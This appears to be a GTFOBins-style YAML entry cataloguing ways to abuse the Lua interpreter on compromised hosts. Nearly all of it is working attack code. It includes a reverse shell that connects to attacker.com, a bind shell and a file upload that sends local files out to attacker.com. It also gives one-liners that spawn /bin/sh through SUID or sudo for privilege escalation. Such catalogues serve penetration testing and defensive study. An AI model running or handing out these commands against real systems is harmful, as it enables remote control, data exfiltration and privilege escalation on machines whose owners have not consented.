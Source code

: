 ```yaml
---
functions:
  execute-interactive:
    - code: lua -e 'os.execute("/bin/sh")'
  reverse-shell-non-interactive:
    - description: Run <code>nc -l -p 12345</code> on
        the attacker box to receive the shell. This requires `lua-socket` installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        lua -e 'local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  bind-shell-non-interactive:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires `lua-socket` installed.
      code: |
        export LPORT=12345
        lua -e 'local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  upload:
    - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"`
        on the attacker box to collect the file. This requires `lua-socket` installed.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        lua -e '
          local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  download:
    - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345
        < "file_to_send"` on the attacker box to send the file. This requires `lua-socket` installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        lua -e 'local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: lua -e 'local f=io.open("file_to_write", "wb"); f:write("data"); io.close(f);'
  file-read:
    - code: lua -e 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);'
  suid-limited:
    - code: ./lua -e 'os.execute("/bin/sh")'
  sudo-enabled:
    - code: sudo lua -e 'os.execute("/bin/sh")'
---
```

